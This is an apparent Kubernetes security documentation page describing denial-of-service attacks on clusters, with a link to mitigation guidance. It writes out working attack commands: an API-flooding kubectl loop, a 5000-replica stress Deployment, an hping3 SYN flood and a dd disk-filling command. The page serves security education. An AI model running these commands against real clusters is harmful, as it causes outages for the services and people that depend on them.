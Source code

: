 ```yaml
---
sidebar_position: 9
title: "Denial of Service (DoS) Attacks"
description: "How attackers exploit Kubernetes resources to exhaust system capacity, disrupt workloads, and cause service outages."
---
```


# Denial of Service (DoS) Attacks

A **Denial of Service (DoS) attack** targets a Kubernetes cluster by exhausting system resources, overloading the API server, or overwhelming network capacity. These attacks can lead to service downtime, degraded performance, or total cluster unavailability.

---

## Exploitation Steps

### 1. Flood the Kubernetes API Server

An attacker sends repeated API requests to overload the control plane:

```bash
while true; do kubectl get pods --all-namespaces; done
```

If unauthenticated or loosely authenticated access is permitted, the API server experiences high latency and dropped requests.

---

### 2. Deploy Resource-Exhausting Pods

Without Pod resource limits, the attacker creates high-load containers to consume CPU and memory:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: overload-pods
spec:
  replicas: 5000
  template:
    spec:
      containers:
        - name: stress-container
          image: polinux/stress
          command: ["stress"]
          args:
            [
              "--cpu",
              "4",
              "--io",
              "4",
              "--vm",
              "4",
              "--vm-bytes",
              "128M",
              "--timeout",
              "300s",
            ]
```

```bash
kubectl apply -f overload-pods.yaml
```

This can starve other workloads and destabilize the cluster.

---

### 3. Exploit Missing Network Policies

If no Network Policies are enforced, an attacker can flood internal services:

```bash
hping3 -S -p 443 <service-ip> --flood
```

This overwhelms the service backend, resulting in dropped connections and timeout errors.

---

### 4. Abuse Persistent Storage

If storage usage is not constrained, the attacker fills up a PersistentVolume:

```bash
dd if=/dev/zero of=/mnt/persistent-volume/attack bs=1M count=100000
```

Full disk usage disrupts stateful workloads relying on persistent storage.

---

### Result

The attacker causes **resource exhaustion, service unavailability, latency spikes, and application crashes**. Without proper controls, even a low-privileged user can perform widespread denial of service.

---

## Mitigation

➡ [Mitigating DoS Attacks in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/network_security/ddos_mitigation)
